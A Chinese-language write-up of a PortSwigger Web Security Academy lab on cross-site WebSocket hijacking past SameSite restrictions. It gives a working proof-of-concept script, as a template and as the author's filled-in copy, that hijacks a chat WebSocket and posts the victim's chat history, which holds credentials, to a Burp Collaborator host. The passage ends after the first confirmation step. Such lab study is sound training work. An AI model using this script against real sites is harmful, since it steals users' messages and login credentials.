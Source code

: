 
> 
<h3>实验9：通过兄弟域严格绕过SameSite</h3>
信息：
1、本实验的实时聊天功能容易受到跨站点WebSocket劫持（CSWSH）的攻击
2、解决实验：登录受害者的账户.
3、使用提供的漏洞利用服务器执行CSWSH攻击，将受害者的聊天历史泄漏到默认Burp Collaborator服务器。聊天历史记录包含纯文本形式的登录凭据。
<hr/>
part1：
学习实时聊天功能


BP代理，进入实时聊天功能并发送几条消息，HTTP history中找到WebSocket握手请求
它不包含任何不可预测的令牌，因此如果可以绕过任何SameSite cookie限制，则可能容易受到CSWSH的攻击


在浏览器中，刷新实时聊天页面。
历史记录选项卡。刷新页时，浏览器会向服务器发送READY消息。这将导致服务器以整个聊天历史记录进行响应

<hr/>
part2:
确认CSWSH漏洞
转到Collaborator选项卡，然后复制到剪贴板

<pre>`fk3ogs2u3x8d3mfm0lw9gaglkcq2er.burpcollaborator.net`</pre>

转到利用漏洞攻击服务器并使用以下模板创建CSWSH概念验证脚本：
<pre><code>&lt;script&gt;
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
&lt;/script&gt;

我的是：
&lt;script&gt;
    var ws = new WebSocket('wss://0a0b005204975a91c040c25f005e0071.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://fk3ogs2u3x8d3mfm0lw9gaglkcq2er.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
&lt;/script&gt;</code></pre>
存储（store）和查看漏洞（view）
返回Collaborator选项卡并单击刷新。收到了一个HTTP交互，表明已经打开了一个与目标站点的新的实时聊天连接


尽管已经确认了CSWSH漏洞，但只是泄漏了一个全新会话的聊天历史记录，这并不是特别有用


